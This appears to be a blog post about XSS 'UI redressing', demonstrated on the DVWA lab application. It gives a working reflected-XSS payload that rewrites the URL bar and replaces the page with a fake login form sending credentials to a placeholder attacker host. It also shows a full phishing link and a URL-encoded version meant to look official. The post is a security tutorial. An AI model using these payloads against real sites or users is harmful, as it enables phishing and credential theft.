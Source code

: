 ```yaml
---
title: 'xss_ui_redressing'
date: 2018-11-28T15:14:39+10:00
---
```


---

### Moving Beyond alert('xss')

Most people know all about making an alert box pop or getting a cookie sent to an external site with document.cookie. It makes since, it is easy to demo and for the most part makes for a great proof of concept.

Unfortunately these sometimes fail to showcase some of the more potentially devious outcomes from having a site that is vulnerable to XSS.

I recently came across a form of XSS that is called ui redressing. As I researched and learned more about it I came to see how malicious a XSS attack could be.

---

### What is UI Redressing?

Redressing leverages features of html5 to call the history.replaceState or history.pushState functions to the browser. These functions allow a script to re-write what is presented in the URL bar after a page has loaded.

A script, rewrites the url presented in the address bar after loading the page. I'll let that sink in for a minute. I first came across this method randomly on [swisskeyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#ui-redressing) xss injection GitHub page.

From the example on the swisskyrepo's page history.replaceState() is leveraged to replace the page with a /login.

*Note: history.pushState() could also be used.*

When the script is ran the url bar will be re-written from:

```
http://dvwa/vulnerabilities/xss_r/?name=yogi#
```

to something a bit more devious:

```
http://dvwa/login
```

So what? Whats the big deal, the url is re-written but the page is still the page it should be. Right? Maybe, unless the page gets changed with the document.body.innerHTML property....

---

### In Practice

Up until this point we have seen how UI redressing can be used to change the address bar. Let's leverage that and also re-write the html page to something a little bit more fitting of a login url. Using the script below we can change the URL to http://dvwa/login and also create a new html page for it with document.body.innerHTML.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to acces
s secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Usernam
e: <input type='text'>Password: <input type='password'><input value='submit' type='su
bmit'></form>"
</script>
```

That's it. We can send a Phishing email with a url that is vulnerable to a reflected XSS and include that code as our payload.

```html
http://dvwa/vulnerabilities/xss_r/?name=<script>history.replaceState(null, null, '../../../login');document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to access secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Username: <input type='text'>Password: <input type='password'><input value='submit' type='submit'></form>"</script>
```

Even though the page that is expected to load looks similar to this:

![UI Redressing 1](images/xssuiredressing1.png)


When the victim clicks the link the login page below will load:

![UI Redressing 2](images/xssuiredressing2.png)

What about site certificates? It is not a problem. The victim is still on the real site. They are just at a destination that does not really exist except for them.

Wont they notice something weird about the url? Perhaps, I do not recommend sending a url that is full of html and javascript code. URL encoding it to something like this is much more favorable.

```
http://dvwa/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%68%69%73%74%6f%72%79%2e%72%65%70%6c%61%63%65%53%74%61%74%65%28%6e%75%6c%6c%2c%20%6e%75%6c%6c%2c%20%27%2e%2e%2f%2e%2e%2f%2e%2e%2f%6c%6f%67%69%6e%27%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%69%6e%6e%65%72%48%54%4d%4c%20%3d%20%22%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%63%65%6e%74%65%72%3e%3c%68%32%3e%50%6c%65%61%73%65%20%6c%6f%67%69%6e%20%74%6f%20%61%63%63%65%73%73%20%73%65%63%75%72%65%20%70%6f%72%74%69%6f%6e%20%6f%66%20%6f%75%72%20%73%69%74%65%2e%3c%2f%68%32%3e%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%53%6f%6d%65%4d%61%6c%69%63%69%6f%75%73%4c%69%73%74%65%6e%65%72%27%3e%55%73%65%72%6e%61%6d%65%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%74%65%78%74%27%3e%50%61%73%73%77%6f%72%64%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%3e%3c%69%6e%70%75%74%20%76%61%6c%75%65%3d%27%73%75%62%6d%69%74%27%20%74%79%70%65%3d%27%73%75%62%6d%69%74%27%3e%3c%2f%66%6f%72%6d%3e%22%3c%2f%73%63%72%69%70%74%3e
```

This url looks much more 'official'. I imagine most people would see this url and think: *"oh, just your typical super long url, much be official. Let me check my training. Yup goes to the domain I expect, yup certificate is valid, must be a real site. Safe to login."* I think that the long url lends itself towards being perceived as more legitimate.